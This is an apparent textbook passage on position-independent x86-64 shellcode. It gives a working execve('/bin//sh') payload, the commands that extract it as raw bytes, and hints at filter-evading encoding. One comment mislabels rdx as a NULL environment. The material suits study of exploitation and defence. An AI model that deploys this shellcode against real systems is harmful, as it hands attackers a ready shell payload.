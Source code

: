### 11.12.2 Position-Independent Shellcode

Creating position-independent shellcode for security research:

* **Shellcode Requirements:**
  - No absolute addresses
  - Minimal size
  - Self-contained functionality

* **Basic Shellcode Structure:**
  ```x86asm
  ; Position-independent execve("/bin/sh", NULL, NULL)
  section .text
  global _start
  
  _start:
      ; Calculate current address (using CALL trick)
      call get_ip
  get_ip:
      pop rsi             ; RSI = current address
      
      ; Build "/bin/sh" string on stack
      xor rax, rax
      push rax            ; NULL terminator
      mov rbx, 0x68732f6e69622f2f
      push rbx            ; "/bin//sh" (8 bytes)
      mov rdi, rsp        ; RDI = pointer to string
      
      ; Set up arguments
      push rax            ; NULL
      push rdi            ; "/bin//sh"
      mov rdx, rsp        ; Environment (NULL)
      push rdi            ; "/bin//sh"
      mov rsi, rsp        ; Arguments array
      
      ; Execute shell
      mov al, 59          ; execve syscall number
      syscall
  ```

* **Position-Independent Techniques:**
  - `CALL`/`POP` trick to get current instruction pointer
  - Stack-based string construction
  - No absolute addresses

* **Compilation and Testing:**
  ```bash
  nasm -f elf64 shellcode.asm -o shellcode.o
  ld shellcode.o -o shellcode
  objcopy -j .text -O binary shellcode shellcode.bin
  ```

* **Real-World Considerations:**
  - Null byte avoidance
  - Encoding to bypass filters
  - Polymorphic variations
